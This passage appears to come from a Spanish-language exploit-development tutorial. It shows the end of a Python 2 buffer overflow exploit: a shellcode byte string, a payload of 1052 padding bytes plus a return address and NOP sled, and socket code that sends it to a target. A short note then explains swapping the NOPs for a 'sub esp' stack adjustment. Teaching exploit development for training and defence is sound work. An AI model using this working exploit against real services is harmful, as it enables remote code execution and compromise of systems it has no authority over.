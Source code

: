 ```python
shellcode += b"\xca\xac\xd7\x8c\x12\xed\xa0\x53\xfa\xbc\x94\xf3\x9b"
shellcode += b"\xe5\x8a\xac\xf3\x48\x1a\x39\x2e\x63\x5a\x68\xe9\x85"
shellcode += b"\x93\xde\x3a\x22\x77\x2a\xac\xa1\xfa\x96\x7f\x9f\x95"
shellcode += b"\x6f\xa3\xe4\x13\x41\x9a\xe8\xf6\x97\x6b\x2d\x31\x68"
shellcode += b"\x9c\xb1\x2f\xab\xa3\xf5\x56\xe9\xf5\xa3\x21\xe9\x9c"
shellcode += b"\x19\xaf\x10\x57\xfb\x80\x0e\x73\x48\x84\xb1\xb0\xb0"
shellcode += b"\x83\x67\x88\xb5\x1d\x0e\x73\xeb\xa1\xd1\xdc\xa2\xe9"
shellcode += b"\x76\xcc\xd0\x27\x6b\xed\x5d\xfc\x02\xcb\x8f\xff\xc3"
shellcode += b"\xb2\x8f\xf3\xee\x96\x9a\xec\xb1\x73\x55\x47\x82\x70"
shellcode += b"\x10\x32\x53\xbb\xfa\x83\x38\x3b\xb0\xea\xd1\xe4\x6e"
shellcode += b"\x2f\x7d\x23\xc5\xd9\x5d\xfb\x48\x06\x3d\x4f\x33\xfe"
shellcode += b"\x03\x9c"

if __name__ == "__main__":
    #buffer = "A" * 1052 + pack("<L", 0x68a98a7b) + "\x83\xEC\x10" + shellcode
    buffer = "A" * 1052 + pack("<L", 0x68a98a7b) + "\x90" * 16 + shellcode
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip_address, rport))
        s.send("%s\r\n" % buffer)
    except Exception as ex:
        print "[!] Ha habido un error de conexion"
        print ex
        sys.exit(1)
```

**Consideraciones**

Si bien se pueden utilizar algunos "trucos" para caer en la dirección donde se encuentra el shellcode como lo son los `NOPs (\x90)` se puede ocupar un desplazamiento de pila para restar posiciones, y jugar un poco con los valores. Dentro de `msf-nasm_shell` se puede invocar la instrucción `sub esp, <valor en hexadecimal>`. Ejemplo:

![OP code de sub](./images/bof_10.png)

En este caso se obtendría el valor `83EC10` como código de operación para el desplazamiento de 10 unidades. quedando la línea de construcción del payload como: `buffer = "A" * 1052 + pack("<L", 0x68a98a7b) + "\x83\xEC\x10" + shellcode` en lugar de los `NOPs`.